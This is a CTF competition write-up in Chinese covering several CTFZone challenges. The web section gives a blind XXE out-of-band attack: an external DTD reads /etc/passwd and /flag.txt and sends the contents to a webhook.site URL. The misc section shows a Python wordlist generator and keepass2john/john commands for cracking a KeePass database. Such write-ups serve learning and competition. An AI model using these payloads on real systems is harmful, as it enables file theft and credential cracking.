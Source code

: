 # CTFZone
###### tags: `CTF`

## Web
### SHELLter
打開網頁後，發現是一個 command 介面，且有一些指令能用
![](https://i.imgur.com/NRmnqCm.png)

發現除了 auth 以外，其他的都不會有網路連線，而 auth 指令會送出 XML 到 login.php
![](https://i.imgur.com/e3lx7lm.png)

觀察後發現送出的程式碼部分如下:
```javascript=
auth: function (name, pass) {
    function XMLFunction(){
        var xml = '' +
            '<?xml version="1.0" encoding="UTF-8"?>' +
            '<root>' +
            '<name>' + name + '</name>' +
            '<password>' + pass + '</password>' +
            '</root>';
        var xmlhttp = new XMLHttpRequest();
        xmlhttp.onreadystatechange = function () {
            if(xmlhttp.readyState == 4){
                console.log(xmlhttp.readyState);
                console.log(xmlhttp.responseText);
                document.getElementById('errorMessage').innerHTML = xmlhttp.responseText;
            }
        }
        xmlhttp.open("POST","login.php",true);
        xmlhttp.send(xml);
    };
    XMLFunction();
    this.echo('Error, username or password is incorrect. Try again.');
}
```

可以看到不管怎麼送都會在螢幕上顯示 `Error, username or password is incorrect. Try again.`，所以很肯定不是要拿到使用者的帳密，且似乎沒有送資料給 admin bot 的部分，推測是後端型攻擊

由於有 XML 的關係，推測這題可以使用 XXE，由於無法直接看到回傳資料的關係，推測算是一種 blind XXE

使用 XXE OOB 攻擊 (引用外部 DTD)，腳本參考 [payload all the thing](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#xxe-oob-attack-yunusov-2013)

首先在一台 server 上建立以下 dtd
```xml=
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % all "<!ENTITY send SYSTEM 'https://webhook.site/490325eb-1890-4de3-8e4a-ed536296f84e/?%file;'>">
%all;
```

封包 payload:
```xml=
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data SYSTEM "https://mymbs.ywcweb.engineer/attachments/my.dtd">
<data>&send;</data>
<root><name>a</name><password>b</password></root>
```

不知道為什麼 webhook 收不到，但在回應中有看到我們要的資訊
![](https://i.imgur.com/QzCVuHT.png)

透過通靈和測試，猜測 flag 檔案位置為 `/flag.txt`，修改 dtd 為
```xml=
<!ENTITY % file SYSTEM "file:///flag.txt">
<!ENTITY % all "<!ENTITY send SYSTEM 'https://webhook.site/490325eb-1890-4de3-8e4a-ed536296f84e/?%file;'>">
%all;
```

payload 保持不變

成功收到 flag
![](https://i.imgur.com/tAQLHni.png)

CTFZone{0h_dud3_d1d_u_c_th1s_p3rf3ct_fr0nt}

### Social note
感覺是要竄改 flask session

但是在開源程式碼中的 `SECRET_KEY` 無法驗證網頁上現在在跑的 session，不確定是甚麼原因

![](https://i.imgur.com/iZr5XLG.png)

加解密工具: https://github.com/noraj/flask-session-cookie-manager/blob/master/flask_session_cookie_manager3.py

## reverse
### shitty_crackme
![](https://i.imgur.com/ODbgHjR.png)

還在找QQ
## Misc
### statham
`Task 1`
![](https://i.imgur.com/vKVDMgf.jpg)
看起來就是要 brute force 他給的 KeePass 檔

用 Kali的john_the_ripper 拿著我們用 python 跑出的dictionary 爆破密碼進 Task 2(~~目前還爆不出來，爆了4小時了~~)

```python=
import string
import itertools

# strings match the regex
chars = string.lowercase + string.uppercase + string.digits + '!@#$%^&*'
f = open('dict.txt','a')

all_permutations = list(itertools.permutations(chars,1))+ list(itertools.permutations(chars,2))+ list(itertools.permutations(chars,3))

for p in all_permutations:
    f.write(''.join(p)+'\n')
```
目前下面這項第二種嘗試 Brute force 也失敗，可能工具要另外找
```shell=
keepass2john Database.kdbx > kp && john -format=keepass kp > output && john kp >output && cat output
```
Ref:`
https://tzusec.com/cracking-keepass-database/
https://www.megabeets.net/pragyan-ctf-vault/
`